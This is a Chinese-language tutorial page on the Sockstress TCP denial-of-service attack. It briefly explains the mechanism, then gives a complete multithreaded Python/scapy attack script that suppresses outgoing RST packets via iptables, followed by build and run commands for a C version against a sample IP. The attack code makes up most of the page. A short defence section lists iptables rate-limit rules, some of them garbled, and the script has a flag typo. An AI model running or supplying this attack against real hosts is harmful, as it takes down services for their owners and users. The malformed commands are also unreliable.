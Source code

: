 
# Sockstress攻击

* 简介
* 脚本攻击
* 防御措施

## 简介
* 2008年由Jack C.Louis 发现
* 针对TCP服务的拒绝服务攻击
    * 消耗被攻击目标系统资源
    * 与攻击目标建立大量socket链接
    * 完成三次握手，最后的ACK包window 大小为0 (客户端不接收数据)
    * 攻击者资源消耗小(CPU、内存、带宽)
    * 异步攻击，单机可拒绝服务高配资源服务器
    * Window 窗口实现的TCP 流控

## 脚本攻击
* python 测试脚本
``` 
#!/usr/bin/python
#coding=utf-8

from scapy.all import*
from time import sleep
import thread
import random
import logging
import os
import signal
import sys
import signal

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:
    print "用法: ./sockstress.py [IP地址] [端口] [线程数]"
    print "举例: ../sockstress.py  1.1.1.1 80 20 # 请确定被攻击端口处于开放状态"
    sys.exit()

target = str(sys.argv[1])
dstport= int(sys.argv[2])
threads = int(sys.argv[3])

## 攻击函数
def sockstress(target,dstport) :
    while 0 == 0:
        try:
            x = random.randint(0,65535)
            response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags = 'S'),timeout=1,verbose=0)
            send(IP(dst=target)/TCP(dport=dstport,sport=x,window=0,lags='A',ack=(response[TCP].seq + 1) )/'\x00\x00',verbose=0)
        except:
            pass

## 停止攻击函数
def shutdown(signal,frame):
    print "正在修复 iptables 规则"
    os.system('iptables -D OUTPUT -p tcp --tcp-flags RST RST -d '+ target +' -j DROP')
    sys.exit()

## 添加iptables规则
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d '+ target +' -j DROP')
signal.signal(signal.SIGINT, shutdown)

## 多线程攻击
print "\n攻击正在进行...按 Ctrl+C 停止攻击"
for x in range(0,threads):
    thread.start_new_thread(sockstress, (target,dstport))

##永远执行
while 0 == 0:
    sleep(1)

```


``` 
# 查看系统连接数
netstat | grep ESTABLISHED | wc -l

```

*  C 攻击脚本
> https://github.com/defuse/sockstress

``` 
gcc -Wall -c sockstress.c
gcc -pthread -o sockstress sockstress.o
./sockstress 10.10.10.132:80 eth0
./sockstress 10.10.10.132:80 eth0 -p payloads/http

防火墙规则
iptables -A OUTPUT -p TCP --tcp-flags rst rst -d 10.10.10.132 -j DROP

```

``` 
查看攻击效果
netstat -tulnp | grep ESTABLISHED | wc -l
free
top

```

## 防御措施
1. 直到今天sockstress攻击仍然是一种很有效的DOS攻击方式
1. 由于建立完整的TCP三步握手，因此使用syn cookie防御无效
1. 根本的防御方法是采用白名单(不实际)
1. 折中对策限制单位时间内每IP建的TCP连接数
1. 封杀每30秒与 80 端口建立连接超过 10 个的IP地址
```  
iptables -I INPUT -p tcp –dport 80 -m state–state NEW -m recent–set
iptables -I INPUT-p tcp -dport 80 -m state-state NEW-m recent -update–seconds 30 -hitcount 10 j DROP
以上规则对DDOS攻击无效
```
